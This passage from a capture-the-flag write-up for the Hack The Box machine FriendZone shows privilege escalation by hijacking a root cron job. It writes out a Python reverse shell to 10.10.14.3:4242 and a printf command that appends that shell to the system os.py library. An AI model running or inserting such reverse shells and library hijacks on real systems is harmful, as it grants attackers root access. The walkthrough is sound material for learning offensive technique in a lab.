 ![pspy](/assets/img/htb/machines/linux/easy/friendzone/pspy.png)

`/opt/server_admin/reporter.py` seems to be executed from a cron job. We can read it:

{% highlight bash %}
$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 24  2019 .
drwxr-xr-x 3 root root 4096 Oct  6  2018 ..
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
{% endhighlight %}

{% highlight python %}
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
www-data@FriendZone:/opt/server_admin$
{% endhighlight %}

The script import **os** python's module that we can edit. So we just have to edit it and put a malicious content in it:

{% highlight python %}
import socket,subprocess,pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",4242))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
{% endhighlight %}

{% highlight bash %}
$ printf '\nimport socket,subprocess,pty\ns = socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.3",4242))\ndup2(s.fileno(),0)\ndup2(s.fileno(),1)\ndup2(s.fileno(),2)\npty.spawn("/bin/bash")\n' >> /usr/lib/python2.7/os.py
{% endhighlight %}
